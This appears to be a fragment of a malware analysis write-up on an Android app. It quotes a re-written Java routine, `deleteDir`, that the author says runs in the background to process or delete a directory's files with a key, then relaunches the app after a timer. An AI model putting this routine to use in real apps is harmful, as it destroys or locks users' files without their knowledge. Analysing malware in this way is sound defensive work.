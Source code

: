 ![bar](bar.png)

and in background, the routine `sss.deleteDir` is executed and does its evil job (re-written):

> ```java
>public static void deleteDir(String path, String key, int action, Context context){
>	if (action != 0) {
>		new Timer().schedule(new TimerTask(){
>			public void run(){
>				SharedPreferences.Editor editor = context.getSharedPreferences("XH", 0).edit();
>				editor.putInt("sss", 1);
>				editor.commit();
>				MainActivity.instance.finish();
>				Intent intent = sss.this.getPackageManager().getLaunchIntentForPackage(sss.this.getPackageName());
>				intent.addFlags(Intent.FLAG_ACTIVITY_CLEAR_TOP);
>				context.startActivity(intent);
>			}
>		}, 600000);
>	}
>	deleteDirWihtFile(new File(path), key, action, context);
>	bool = true;
>}
> ```
